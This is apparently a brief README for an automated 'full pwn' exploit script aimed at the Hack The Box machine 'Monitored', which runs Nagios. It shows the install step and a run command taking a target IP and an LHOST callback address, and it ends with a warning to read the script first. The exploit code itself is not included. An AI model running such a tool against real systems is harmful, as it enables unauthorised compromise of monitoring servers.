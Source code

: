 ![image](https://github.com/MAWK0235/Nagios.Monitored.HTB-AUTO-PWN/assets/90433993/32358ac1-37f5-45d6-81c7-c0be25340ed3)

$ sudo pip install -r requirements.txt

$ sudo fullpwnMonitored.py -I IP -l LHOST

Please make sure to read and understand the script. Dont be a skiddie.
